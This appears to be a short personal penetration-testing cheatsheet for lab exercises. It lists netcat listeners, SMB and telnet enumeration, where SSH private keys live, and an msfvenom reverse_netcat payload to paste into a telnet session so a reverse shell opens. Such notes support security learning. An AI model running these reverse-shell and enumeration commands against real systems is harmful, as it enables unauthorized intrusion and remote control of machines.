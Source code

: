 # Cheatsheet

### Common 
* ```wget http://127.0.0.1:8000/file```
* ```python3 -m http.server```
* ```systemctl stop myservice```

## Useful location  
  ### .ssh Key 
   * Private key ssh ```/home/user-name/.ssh```
   * This file is the private key ```id_rsa```
   * change the file permission ``` chmod 600 ```

  ### Nmap


# Fast Tool 
## Netcat
* nc -lvp [listening port], `nc -lvp 4444`


# Services  
## SMB
### Enumerating SMB
* enum4linux [options] ip
* use option  ```-a``` all of the above (full basic enumeration)

### SMB Exploit
* smbclient //[IP]/[SHARE]
* smbclient //10.10.10.2/sharefilename -U username -p 445
## Telnet
### Enumerating Telnet
* nmap
### Exploiting
* telnet [ip] [port]


# shells 
## Simple Shell msfvenom 


```
If using your own machine with the OpenVPN connection, use:
sudo tcpdump ip proto \\icmp -i tun0
If using the AttackBox, use:
sudo tcpdump ip proto \\icmp -i ens5


"msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R"
-p = payload
lhost = our local host IP address (this is your machine's IP address)
lport = the port to listen on (this is the port on your machine)
R = export the payload in raw format
copy and paste the value on telnet session 
```


# other Important 
## Start a tcpdump listener

